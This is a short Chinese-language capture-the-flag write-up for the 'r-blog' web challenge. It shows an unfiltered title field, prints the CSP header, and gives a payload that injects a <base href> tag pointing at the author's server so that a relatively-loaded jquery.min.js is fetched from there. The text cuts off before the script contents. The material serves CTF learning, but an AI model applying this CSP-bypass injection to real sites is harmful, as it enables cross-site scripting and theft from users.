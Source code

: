 ## r-blog

title:        "<>1"

content: "<>1"

结果：

```

<!doctype html>
<html lang="en">
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
	<link rel="stylesheet" href="/assets/css/bootstrap.min.css">
	<link rel="stylesheet" href="/assets/css/style.css">
	<link href="https://fonts.googleapis.com/css?family=Titillium+Web" rel="stylesheet">
	<title>rBlog 2018</title>
</head>
<body>
<div class="container mt-5">
	<div class="card">
				<div class="card-body">
			<h2 class="card-title"><>1</h2>
			<p class="card-text">&lt;&gt;2</p>
		</div>
	</div>
</div>
<script nonce="090c154a21d0fdf5809aff4586fe1eed" src="/assets/js/jquery.min.js"></script>
</body>
</html>
```

title没有过滤，content过滤。

csp如下:

```
X-Frame-Options: DENY
Content-Security-Policy: default-src 'none'; script-src 'nonce-3ae08923a2654e27a3734f7876a5abe0'; frame-src https://www.google.com/recaptcha/; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src fonts.gstatic.com; img-src 'self'
```

我们看到jquery.min.js是相对地址，并且base-uri没有在csp中指定。

所以payload如下:

title: `<base href ="http://【my_server】/">`

content: 随意

在字节的vps上添加jquery.min.js，网址:           `http://[my_server]/assets/js/jquery.min.js`

jquery.min.js的内容：

